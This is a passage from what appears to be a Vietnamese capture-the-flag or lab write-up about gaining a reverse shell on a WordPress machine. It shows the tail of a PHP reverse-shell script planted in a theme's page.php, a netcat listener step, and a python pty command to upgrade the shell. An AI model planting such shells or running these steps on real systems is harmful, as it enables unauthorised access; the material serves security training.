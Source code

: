 ```

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

![Screenshot 2024-02-28 235617](https://hackmd.io/_uploads/BypTSJ6nT.png)

Update edit file. Trước khi load site page.php , sử dụng netcat để lắng nghe kết nối đến : 

![Screenshot 2024-02-28 235506](https://hackmd.io/_uploads/rkSM81p26.png)

Truy cập *10.10.17.126/wp-content/themes/twentyfifteen/page.php* , ngay lập tức , ta nhận được reverse-shell kết nối qua terminal: 

![Screenshot 2024-02-29 000656](https://hackmd.io/_uploads/H1YH_ya36.png)

Hmm, ta nhận được shell *non-interactive* *sh* (shell non-interactive hạn chế các tính năng tương tác shell trên hệ thống)
Kiểm tra tiến trình với `ps` , kiểm tra python trên hệ thống:

![Screenshot 2024-02-29 001111](https://hackmd.io/_uploads/HkDDKJa3a.png)

Thực hiện nâng cấp shell interactive với `bash` shell sử dụng python: `python -c 'import pty;pty.spawn("/bin/bash")';`
Lệnh trên tạo ra một thiết bị terminal mới và khởi chạy shell `bash` bên trong nó: (cú pháp thì tự search gg🫠:*[upgrade-linux-shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)* )

![image](https://hackmd.io/_uploads/rkKdiJT26.png)
